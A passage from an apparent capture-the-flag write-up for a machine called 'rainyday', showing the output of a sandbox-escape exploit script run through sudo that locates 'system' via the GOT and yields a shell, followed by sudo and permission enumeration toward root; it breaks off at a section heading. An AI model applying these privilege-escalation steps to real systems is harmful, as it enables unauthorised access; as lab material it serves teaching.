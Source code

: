 ```

jack@rainyday:/dev/shm$ sudo -u jack_adm safe_python ./sploit.py 
[*] .dynamic:   0x558397107be8
[*] DT_SYMTAB:  0x558396ba65f8
[*] DT_STRTAB:  0x558396bb3300
[*] DT_RELA:    0x558396c0c560
[*] DT_PLTGOT:  0x558397107e08
[*] DT_INIT:    0x558396c10000
[*] Found system at rela index 97
[*] Full RELRO binary, reading system address from GOT
[*] system:     0x7f4d4a4dcd60
$ id
uid=1002(jack_adm) gid=1002(jack_adm) groups=1002(jack_adm)

```

## Shell as root

### Enumeration

jack\_adm can run `hash_password.py` as root:

```

jack_adm@rainyday:~$ sudo -l
Matching Defaults entries for jack_adm on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jack_adm may run the following commands on localhost:
    (root) NOPASSWD: /opt/hash_system/hash_password.py

```

Just like above, jack\_adm can’t access the script to see what it does:

```

jack_adm@rainyday:~$ ls -l /opt/hash_system/hash_password.py
ls: cannot access '/opt/hash_system/hash_password.py': Permission denied
jack_adm@rainyday:~$ ls -l /opt/hash_system/
ls: cannot open directory '/opt/hash_system/': Permission denied
jack_adm@rainyday:~$ ls -l /opt/
total 8
drwx--x--x 4 root root 4096 Sep 29 13:47 containerd
drwxr-x--- 3 root root 4096 Oct 19 10:00 hash_system

```

### hash\_password.py

#### Typical Usage
